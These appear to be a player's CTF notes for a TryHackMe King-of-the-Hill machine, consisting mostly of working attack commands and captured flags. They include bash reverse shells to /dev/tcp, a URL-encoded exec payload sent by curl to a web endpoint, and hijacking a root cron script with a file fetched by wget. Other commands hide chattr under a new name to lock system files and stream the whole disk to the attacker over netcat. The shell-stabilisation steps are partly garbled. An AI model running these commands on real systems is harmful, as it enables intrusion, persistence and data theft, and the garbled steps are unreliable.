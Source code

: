 grep "flag" ./^? 2>/dev/null  
  
nmap the IP  
access Lesson page  
run nc -lvp 4444  
use php/bash reverse shell  
exec("/bin/bash -c 'bash -i >& /dev/tcp/attacking ip/4444 0>&1'");  
flag  
  
Stabilize shell-  
steps to stabilize your shell
1. 
```bash 
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Which uses Python to spawn a better-featured bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys.whi

2.  
```bash
export TERM=xterm
```
This will give us access to term commands such as clear.

Finally (and most importantly) we will background the shell using

3. Ctrl + Z
Back in our own terminal we use

```bash
Ctrl-Z
```

This does two things: first, it turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes

```bash 
stty rows 38 columns 116
```


1st flag is in serv4 
/var/www/serv4/index.php/index.php/
THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}

find crontab file
nano /home/serv3/backups/backup.sh

bash -i >& /dev/tcp/10.6.14.44/4444 0>&1

while true; do echo "7h30" > king.txt; done

 root: THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}



  
  
  
  
  
  
  
  
  
  
  
  
  
  
#  
# NMAP RESULTS  
#  
Discovered open port 22/tcp on 10.10.186.108  
Discovered open port 80/tcp on 10.10.186.108  
Discovered open port 8001/tcp on 10.10.186.108  
Discovered open port 8002/tcp on 10.10.186.108  
Discovered open port 8000/tcp on 10.10.186.108  
Discovered open port 9999/tcp on 10.10.186.108  
  
#  
# SETUP  
#  
cd ~/ctf/tryhackme/koth/H1  
TARGET=10.10.56.188  
MYIP=10.4.11.103  
MYPORT=8888  
  
#  
# INFILTRATE  
#  
python -m http.server 8887  
nc -lvp 8888  
  
MYIP=10.4.11.103  
curl "http://$TARGET:8002/trycode" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -H "Connection: keep-alive" --data-raw "code=exec("%"22"%"2Fbin"%"2Fbash+-c+'bash+-i+"%"3E"%"26+"%"2Fdev"%"2Ftcp"%"2F$MYIP"%"2F8888+0"%"3E"%"261'"%"22)"%"3B"  
  
MYIP=10.4.11.103  
wget $MYIP:8887/backup.sh -O /home/serv3/backups/backup.sh.1  
mv /home/serv3/backups/backup.sh.1 /home/serv3/backups/backup.sh  
chmod 700 /home/serv3/backups/backup.sh  
ssh -i id_rsa root@$TARGET  
  
echo '#!/usr/bin/env bash' > /home/serv3/backups/backup.sh  
echo 'echo 7h30 > /root/king.txt' >> /home/serv3/backups/backup.sh  
cd  
mv `which chattr` /usr/bin/pbmtoat  
pbmtoat +i /root/king.txt  
pbmtoat +i /root/.ssh/authorized_keys  
pbmtoat +i /etc/passwd  
pbmtoat +i /etc/shadow  
chmod 700 /root/.ssh  
pbmtoat +i /home/serv3/backups/backup.sh  
  
#  
# PROTECT  
#  
rm /etc/sudoers.d/serv2  
rm -rf /var/www/html/topSecretPrivescMethod/  
echo '{"username":"admin","password":"notadmin","cookie":"1234bac1ea76920a79d435d0b74581c6"}' > /var/www/serv1/data/user.txt  
chown root:root /home/serv3/backups/backup.sh  
chmod 755 `which bash`  
  
# STEAL DISK  
python -m http.server 8888  
cd /usr/bin  
wget $MYIP:8888/nc.openbsd -O nc  
chmod +x nc  
  
nc -l 8888|bzip2 -d|dd bs=1G count=1 of=/home/nohusuro/ctf/tryhackme/koth/H1/disk_p1.bin  
bzip2 -c /dev/xvda1 | netcat $MYIP 8888  
  
lsattr  
  
  
  
  
#  
# FLAGS  
#  
THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}  
THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}  
THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}  
THM{Bet_You're_Glad_This_Is_Not_A_Hash}  
  
/var/www/serv4/index.php :: THM{YmNlODZjN2I2ZDEwM2FlMDA5Y2RiYzZh}  
/root/root.txt :: THM{OWQyMGRlNWM0NjYzN2NmM2MxMDNkODgx}  
base64 -d /usr/games/fortune :: THM{NGI4Nzk4OGI3MDE4NDUzNWYwNjMyZjY1}  
/var/lib/rary :: THM{Bet_You're_Glad_This_Is_Not_A_Hash}  
  
  
# UNKNOWNS  
  
/var/www/html/topSecretPrivescMethod/secret.txt  
  
256 byte file, which could be  
- encrypted text (gpg?)  
- an encryption key file ?  
- shell code of some sorts  
  
256 byte = 2048 bit output